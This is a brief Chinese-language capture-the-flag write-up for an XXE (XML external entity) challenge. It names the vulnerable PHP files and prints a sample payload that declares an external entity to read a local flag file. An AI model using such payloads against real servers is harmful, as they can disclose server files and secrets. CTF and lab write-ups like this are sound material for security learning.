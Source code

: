 ### XML External Entity

#### 出题解析

考察XXE注入，即 XML实体注入

#### 解题方式

打开直接给phpinfo，源代码有提示
![hint](img/a29457c80aa938a8e5aea29ff1e663c3.png)
底部发现
![system](img/56fb994f690ae50fc45122d3ff0e2be3.png)
其实是执行了`system("ls");`
![index](img/cd73300bf43885046d983b6a29db98fa.png)
然后每个文件都高亮了语法，`dom.php`、`SimpleXMLElement.php`、`simplexml_load_string.php`均可触发XXE漏洞，具体输出点请阅读这三个文件的代码。存在的XXE漏洞具体可以百度研究一下。
样例Payload：

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///flag" >]>
<root>
<name>&xxe;</name>
</root> 
```

